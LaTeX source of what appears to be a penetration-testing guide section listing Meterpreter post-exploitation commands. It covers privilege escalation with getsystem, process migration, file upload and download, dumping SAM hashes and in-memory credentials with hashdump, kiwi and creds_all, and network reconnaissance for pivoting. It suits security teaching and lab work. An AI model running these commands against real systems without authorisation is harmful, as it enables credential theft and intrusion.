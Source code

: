 \begin{notebox}
Autopwn is noisy and will trigger alerts in monitored environments. Use it in labs.
In real engagements, manual targeted exploitation is professional practice.
\end{notebox}

\section{Post-Exploitation --- Meterpreter Essentials}
\label{sec:meterpreter_essentials}

Once a Meterpreter session is open, these are the commands I run immediately:

\begin{termbox}
# System information
sysinfo              # OS, hostname, architecture
getuid               # Current user context
getpid               # Current process ID

# Process management
ps                   # List all processes
pgrep lsass          # Find LSASS PID (for credential dumping)
migrate <PID>        # Migrate into another process (more stable)

# File system
ls                   # List current directory
cd /                 # Navigate to root
cat flag.txt         # Read a file
download file.txt    # Download file to attacker
upload shell.exe     # Upload file to target

# Privilege escalation
getsystem            # Attempt privilege escalation to SYSTEM
getuid               # Confirm current privileges

# Credentials
hashdump             # Dump SAM database hashes
load kiwi            # Load Mimikatz-equivalent module
creds_all            # Dump all credentials from memory

# Networking
ipconfig             # Network interfaces
arp                  # ARP table (useful for pivoting)
route                # Routing table

# Session management
background           # Background current session (Ctrl+Z)
sessions             # List all sessions
sessions -i N        # Resume session N
exit                 # Close session
\end{termbox}


